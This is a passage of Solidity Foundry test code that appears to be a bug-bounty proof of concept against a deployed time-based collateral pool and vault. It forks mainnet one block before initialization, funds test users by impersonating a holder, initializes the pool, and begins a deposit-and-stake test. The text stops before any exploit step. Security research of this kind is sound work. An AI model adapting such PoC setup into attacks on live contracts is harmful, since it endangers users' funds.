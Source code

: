 ```
    poolAddress &#x3D;         address(0xd042C267758eDDf34B481E1F539d637e41db3e5a);

    alice &#x3D; address(0x123);
    bob &#x3D; address(0x456);


    vm.selectFork(mainnetFork);
    vm.rollFork(20929936); //1 block before initialization, to skip proxy and make PoC interact directly with in scope asset

  

    vault &#x3D; ICollateral(vaultAddress);
    pool &#x3D; ITimeBasedCollateralPool(poolAddress);
    depositToken &#x3D; IERC20(depositTokenAddress);


    vm.prank(0x37305B1cD40574E4C5Ce33f8e8306Be057fD7341);
    depositToken.transfer(alice, 500000000);

    vm.prank(alice);
    depositToken.approve(vaultAddress, type(uint256).max);


    vm.prank(0x37305B1cD40574E4C5Ce33f8e8306Be057fD7341);
    depositToken.transfer(bob, 500000000);

    vm.prank(bob);
    depositToken.approve(vaultAddress, type(uint256).max);



    //Init with dummy numbers just to show impact
    pool.initialize(vault, 1, address(this),address(this),address(this),address(this),address(this));




    collAdd.push(CollateralizableContractApprovalConfig(poolAddress, true));

    vm.prank(address(0x4eeB7c5BB75Fc0DBEa4826BF568FD577f62cad21));
    vault.upsertCollateralizableContractApprovals(collAdd);

}



function testRevert() public {


    bytes memory empty;


    amounts &#x3D; [50000000];
    addresses &#x3D; [depositTokenAddress];



    vm.startPrank(alice);

    vault.depositAndApprove(addresses, amounts, poolAddress);
    pool.stake(depositToken,10, empty);
```